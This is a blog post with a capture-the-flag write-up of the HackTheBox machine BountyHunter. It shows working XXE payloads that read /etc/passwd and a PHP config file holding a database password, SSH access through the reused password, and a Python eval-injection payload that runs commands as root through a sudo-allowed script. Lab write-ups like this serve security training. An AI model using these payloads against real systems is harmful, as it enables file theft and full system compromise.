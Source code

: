 
---
layout: post
title:  "HackTheBox BountyHunter"
date:   2021-10-03
category: Writeup
image: assets/img/blog/BountyHunter.png
author: Lukas Marckmiller
tags: ctf
---

# HackTheBox BountyHunter Writeup!

Hi! Thanks for reading my Writeup for the HTB Machine *BountyHunter*


## User.txt

First, i started with running [autorecon](https://github.com/Tib3rius/AutoRecon) (`autorecon <ip>)`. Its a pretty nice tool for gathering information about open ports, services bound to ports and possible attack vectors.
Taking a look on the results of  [autorecon](https://github.com/Tib3rius/AutoRecon) it reveals two open ports, SSH (**22**) and HTTP (**80**).  
![nmap](/assets/img/blog/bhnmap.png)
I manually visited the website on port 80, found a php script and started running `gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://<ip> -x php`. It revealed following files and directories:

`/resources,/index.php,portal.php,/assets, /js, /css, db.php`

Next i manually checked the discovered directories and found a tasklist in `http://\<ip>/resources/README.txt` containing following text:

> Tasks:
> 
> [ ] Disable 'test' account on portal and switch to hashed password.
> Disable nopass. [X] Write tracker submit script [ ] Connect tracker
> submit script to the database [X] Fix developer group permissions

We should keep this information in mind. Also theres a file called `bountylog.js` containing JavaScript code. 

    function returnSecret(data) {
    	return Promise.resolve($.ajax({
                type: "POST",
                data: {"data":data},
                url: "tracker_diRbPr00f314.php"
                }));
    }
    
    async function bountySubmit() {
    	try {
    		var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
    		<bugreport>
    		<title>${$('#exploitTitle').val()}</title>
    		<cwe>${$('#cwe').val()}</cwe>
    		<cvss>${$('#cvss').val()}</cvss>
    		<reward>${$('#reward').val()}</reward>
    		</bugreport>`
    		let data = await returnSecret(btoa(xml));
      		$("#return").html(data)
    	}
    	catch(error) {
    		console.log('Error:', error);
    	}
    }

Analysing the code we can see that it sends a post request with an xml payload to `tracker_diRbPr00f314.php`. I thought about it for a second and got the idea: 
XML + Webrequest = [XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_%28XXE%29_Processing). So i started BurpSuite, moved to `http://<ip>/log_submit.php` and caught the post request to `http://<ip>/tracker_diRbPr00f314.php` which contained  a base64 encoded payload. A URL and base64 decoding later i got the raw request. 

    <?xml  version="1.0" encoding="ISO-8859-1"?>
    		<bugreport>
    		<title>1</title>
    		<cwe>2</cwe>
    		<cvss>3</cvss>
    		<reward>4</reward>
    		</bugreport>

In  Burp I moved to the Repeater and built my payload with the help of [this list](https://github.com/payloadbox/xxe-injection-payload-list).

    <?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
    		<bugreport>
    		<title>&ent;</title>
    		<cwe>2</cwe>
    		<cvss>3</cvss>
    		<reward>4</reward>
    		</bugreport>

Base64 and URL encoded i got the contents of the passwd file. 

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...
    development:x:1000:1000:Development:/home/development:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin

So my XXE attack was successful. Unfortunately i couldn't read any other found files like `db.php` or `portal.php` in my expected web root direcotory at `/var/www/html/`. So i was looking for a different payload to avoid absolute paths and found an alternative payload on [hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file).

    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/db.php"> ]>
    <data>&example;</data>

It revealed the contents of db.php.

    <?php
    // TODO -> Implement login system with the database.
    $dbserver = "localhost";
    $dbname = "bounty";
    $dbusername = "admin";
    $dbpassword = "m19RoAU0hP41A1sTsq6K";
    $testuser = "test";
    ?>

Nice! So we got a database user and a password. Unfortunately i couldn't find anything else interesting so i moved to the ssh port. Previously we found a user named `development`in `/etc/passwd`, if we try `ssh development@<ip>` we are prompted for a password. We haven't found any password for this user so i just tried the password from the `db.php` file and .... it worked! 

    development@bountyhunter:~$ id   
    uid=1000(development) gid=1000(development) groups=1000(development)
  So we can retrieve the first flag.

## Root.txt
I started to ennumerate the current directory and found a `contract.txt` 
![contract](/assets/img/blog/bhcontract.png)
It gives us a hint that on the system we can find an internal tool from *Skytrain Inc*, but we dont know where exactly. So i ran `find / -iname "*Skytrain*" 2>/dev/null`. 
![find](/assets/img/blog/bhfind.png)
The directory contains a python script `ticketValidator.py`with straightforward python code.

	#Skytrain Inc Ticket Validation System 0.1
	#Do not distribute this file.
	def load_file(loc):
	    if loc.endswith(".md"):
	        return open(loc, 'r')

	    else:
	        print("Wrong file type.")
	        exit()
	
	def evaluate(ticketFile):
	    #Evaluates a ticket to check for ireggularities.
	    code_line = None
	    for i,x in enumerate(ticketFile.readlines()):
	        if i == 0:
	            if not x.startswith("# Skytrain Inc"):
	                return False
	            continue
	        if i == 1:
	            if not x.startswith("## Ticket to "):
	                return False
	            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
	            continue

	        if x.startswith("__Ticket Code:__"):
	            code_line = i+1
	            continue

	        if code_line and i == code_line:
	            if not x.startswith("**"):
	                return False

	            ticketCode = x.replace("**", "").split("+")[0]

	            if int(ticketCode) % 7 == 4:
	                validationNumber = eval(x.replace("**", ""))
	                if validationNumber > 100:
	                    return True
	                else:
	                    return False
	    return False

	def main():
	    fileName = input("Please enter the path to the ticket file.\n")
	    ticket = load_file(fileName)
	    #DEBUG print(ticket)
	    result = evaluate(ticket)
	    if (result):
	        print("Valid ticket.")
	    else:
	        print("Invalid ticket.")
	    ticket.close

	main()

The most important line `validationNumber = eval(x.replace("**", ""))` contains a eval. If we could manipulate the contants of `x` we can execute arbitrary commands.  I we follow `x` backwards through the script we can observe that a file is read line by line and each line stored in the loop value `x`.  But in order to execute the contents of `x` we must satisfy all conditions:

 1. `if loc.endswith(".md")`. Our payload file must have the extension  .md
 2. `if int(ticketCode) % 7 == 4:` The first part of our payload must a number that devided by 7 is a multiple of it with the rest of 4. The easiest value is 4.
 3. Our payload must contain a `+` in the ticketcode line.

An example can be found in `/opt/skytrain_inc/invalid_tickets` e.g:

    # Skytrain Inc
    ## Ticket to New Haven
    __Ticket Code:__  **31+410+86**
    ##Issued: 2021/04/06
    #End Ticket  

But what do we actually achive with this? 
I ran [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) nad found out that the current user is able to execute the script above as the root user without using a password! So that means if we can execute arbitrary code it is executed as the root user. 
All put together i ended up with following payload:

    # Skytrain Inc  
    ## Ticket to New Haven  
    **4+ __import__('os').system('cat /root/root.txt > /tmp/root')**    
    ##Issued: 2021/04/06  
    #End Ticket 

 After that we can read the flag with `cat /tmp/root`

 



